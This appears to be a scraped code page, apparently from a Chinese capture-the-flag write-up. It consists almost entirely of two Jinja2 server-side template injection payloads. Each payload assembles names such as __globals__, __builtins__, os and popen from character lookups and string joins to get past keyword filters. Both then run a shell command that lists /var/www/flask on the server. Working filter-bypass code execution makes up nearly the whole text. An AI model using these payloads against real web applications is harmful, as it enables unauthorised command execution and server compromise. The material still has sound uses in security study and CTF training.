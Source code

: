   复制

  ```
  {%set a=dict(po=x,p=x)|join%}  #pop
  {%set b=(()|select|string|list)|attr(a)(𝟐𝟒)%}  #_
  {%set c=(b,b,dict(do=x,c=x)|join,b,b)|join()%}  #__doc__
  {%set d=(x|attr(c)|list)|attr(a)(𝟑𝟑𝟕)%}  #单引号
  {%set e=(x|attr(c)|list)|attr(a)(𝟐𝟔𝟒)%}  #左括号(
  {%set f=(x|attr(c)|list)|attr(a)(𝟐𝟖𝟔)%}  #右括号)
  {%set g=(x|attr(c)|list)|attr(a)(𝟑𝟐𝟎)%}  #点.
  {%set h=(x|attr(c)|list)|attr(a)(𝟏𝟎𝟐)%}  #空格
  {%set i=(b,b,dict(in=x,it=x)|join,b,b)|join()%}  #__init__
  {%set j=(b,b,dict(glo=x,bals=x)|join,b,b)|join()%}  #__globals__
  {%set k=(b,b,dict(ge=x,titem=x)|join,b,b)|join()%}  #__getitem__
  {%set l=(b,b,dict(buil=x,tins=x)|join,b,b)|join()%}  #__builtins__
  {%set m=(b,b,dict(im=x,port=x)|join,b,b)|join()%}  #__import__
  {%set n=(x|attr(i)|attr(j)|string|list)|attr(a)(𝟑𝟒𝟗)%}
  {%set o=dict(ev=x,al=x)|join()%}  #eval
  {%set p=dict(o=x,s=x)|join()%}  #os
  {%set q=dict(po=x,pen=x)|join()%}  #popen
  {%set r=dict(re=x,ad=x)|join()%}  #read
  {%set s=(dict(ls=x)|join,h,n,dict(var=x)|join,n,dict(www=x)|join,n,dict(flask=x)|join)|join()%}
  {%set t=(m,e,d,p,d,f,g,q,e,d,s,d,f,g,r,e,f)|join()%}
  {%set u=x|attr(i)|attr(j)|attr(k)(l)|attr(k)(o)(t)%}
  {{u}}
  ```

  复制

  ```
  {% set id=dict(ind=a,ex=a)|join%}
  {% set pp=dict(po=a,p=a)|join%}
  {% set ls=dict(ls=a)|join%}
  {% set ppe=dict(po=a,pen=a)|join%}
  {% set gt=dict(ge=a,t=a)|join%}
  {% set cr=dict(ch=a,r=a)|join%}
  {% set nn=dict(n=a)|join%}
  {% set tt=dict(t=a)|join%}
  {% set ff=dict(f=a)|join%}
  {% set ooqq=dict(o=a,s=a)|join %}
  {% set rd=dict(re=a,ad=a)|join%}
  {% set five=(lipsum|string|list)|attr(id)(tt) %}
  {% set three=(lipsum|string|list)|attr(id)(nn) %}
  {% set one=(lipsum|string|list)|attr(id)(ff) %}
  {% set shiba=five*five-three-three-one %}
  {% set xiahuaxian=(lipsum|string|list)|attr(pp)(shiba) %}
  {% set gb=(xiahuaxian,xiahuaxian,dict(glob=a,als=a)|join,xiahuaxian,xiahuaxian)|join %}
  {% set bin=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join %}
  {% set chcr=(lipsum|attr(gb))|attr(gt)(bin)|attr(gt)(cr) %}
  {% set xiegang=chcr(three*five*five-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one)%}
  {% set space=chcr(three*three*five-five-five-three) %}
  {% set shell=(ls,space,xiegang,dict(var=a)|join,xiegang,dict(www=a)|join,xiegang,dict(flask=a)|join)|join %}
  {{(lipsum|attr(gb))|attr(gt)(ooqq)|attr(ppe)(shell)|attr(rd)()}}
  ```
